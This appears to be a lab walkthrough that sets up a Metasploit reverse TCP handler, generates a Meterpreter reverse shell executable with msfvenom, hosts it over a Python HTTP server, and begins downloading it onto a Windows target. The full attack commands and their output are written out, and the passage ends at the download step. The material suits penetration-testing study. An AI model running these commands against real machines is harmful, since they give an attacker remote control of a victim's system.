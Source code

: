 ```

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 63089  bytes 21354503 (20.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 63089  bytes 21354503 (20.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Launch the Metasploit Framework to prepare a handler for the reverse shell._

`msfconsole -q`

_Search for the multi/handler exploit and configure it for the reverse TCP payload._

`search multi/handler`, `use exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.39.4`, `set LPORT 4444`, `show advanced`, `set InitialAutoRunScript post/windows/manage/migrate`, `exploit -j`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.39.4:4444 ←
```

**Explanation:** The handler is now set up to receive a connection from the reverse shell that will be created and executed on the target machine.

_Create a reverse shell payload using msfvenom and save it as an executable file._

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.39.4 LPORT=4444 -f exe -o /root/Desktop/reverse_shell.exe`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/reverse_shell.exe ←
```

_Change to the Desktop directory to host the reverse shell executable via a simple HTTP server._

`cd /root/Desktop`

_Use Python's built-in HTTP server to serve the reverse shell executable._

`python3 -m http.server 80`

<span style="color: #64b5f6;">**Target (victim) machine: `student` privilege**</span>.

_Create a new directory to store the downloaded reverse shell payload._

`mkdir C:\Users\student\Desktop\malware`

_Use PowerShell to download the reverse shell executable from the attacker's machine._
